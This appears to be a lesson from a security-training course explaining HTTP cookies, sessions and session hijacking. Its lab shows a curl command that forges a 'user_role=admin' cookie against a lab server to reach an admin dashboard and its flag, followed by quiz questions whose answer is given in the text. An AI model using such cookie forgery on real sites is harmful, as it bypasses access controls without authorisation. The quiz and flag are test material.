

# Cookies & Sessions

HTTP is stateless. The server forgets you the moment it sends a response.
To remember who you are (i.e., that you are logged in), we use **Cookies**.

## The Mechanism

1.  **Login:** You send User/Pass.
2.  **Set-Cookie:** Server verifies you and sends `Set-Cookie: session_id=xyz123`.
3.  **Auth:** Your browser sends `Cookie: session_id=xyz123` with *every* subsequent request.

## Session Hijacking

If an attacker steals your `session_id` cookie, they *become* you. They don't need your password.

## Lab: Cookie Tampering

You are logged in as a 'guest'. The cookie looks suspiciously simple.
`user_role=guest`

Can you become admin?

<TerminalWindow 
  cmd="curl -H 'Cookie: user_role=admin' http://10.10.10.5/dashboard" 
  output="<!DOCTYPE html>
<html>
<body>
<h1>Welcome, Administrator</h1>

Sensitive Data: BL{C00k1e_M0nst3r_Pr1vEsc}

</body>
</html>" 
/>

By simply changing the cookie value sent to the server, we bypassed authentication checks.

<Quiz 
  question="What happens if you modify a cookie marked 'HttpOnly' via JavaScript?"
  options={[
    "It works normally.",
    "JavaScript cannot access HttpOnly cookies.",
    "The browser deletes the cookie.",
    "The server bans your IP."
  ]}
/>

<Quiz 
  question="What is the flag found on the admin dashboard?"
  options={[
    "BL{Sess1on_H1j4ck}",
    "BL{C00k1e_M0nst3r_Pr1vEsc}",
    "BL{Adm1n_P0wer}",
    "BL{Http_Only_Fail}"
  ]}
/>
